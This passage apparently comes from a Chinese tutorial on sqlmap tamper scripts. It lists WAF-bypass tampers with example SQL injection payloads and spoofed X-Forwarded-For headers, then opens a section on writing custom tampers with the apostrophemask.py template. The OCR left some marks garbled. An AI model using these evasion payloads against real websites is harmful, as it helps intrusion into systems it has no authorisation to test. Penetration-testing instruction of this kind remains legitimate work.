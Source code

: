 ```shell
平台：headers = kwargs.get (“headers”, {}) headers [“X-originating-IP”] = “127.0.0.1”return payload
举例：All

versionedkeywords.py
功能：对非函数的关键字进行注释
平台：MySQL 4.0.18, 5.1.56, 5.5.11
举例：1 union select user () ==> 1/!UNION//!SELECT/user ()

versionedmorekeywords.py
功能：对每个关键字进行注释处理
平台：MySQL 5.1.56, 5.5.11
举例：1 union select user () ==> 1/!UNION//!SELECT/user ()

xforwardedfor.py
功能：添加一个伪造的 HTTP 头 “X-Forwarded-For” 来绕过 WAF
平台：All
举例：headers = kwargs.get (“headers”, {}) headers [“X-Forwarded-For”] = randomIP () return payload
```

### 3. 编写tamper

先来看一个简单的 tamper：apostrophemask.py

```shell
# Needed imports
from lib.core.enums import PRIORITY

# Define which is the order of application of tamper scripts against
# the payload
__priority__ = PRIORITY.NORMAL

def tamper(payload, **kwargs):
    '''
    Description of your tamper script
    '''

    retVal = payload.replace('\'', "%EF%BC%87") if payload else payload

    # your code to tamper the original payload

    # return the tampered payload
    return retVal
```

这个 tamper 非常的简单，写的话参考这个就可以了，先来分析这里边有什么元素

* import部分
* `__priority__` 属性
* dependencies函数
* tamper函数以及用户自定义的函数

#### 1. import 部分
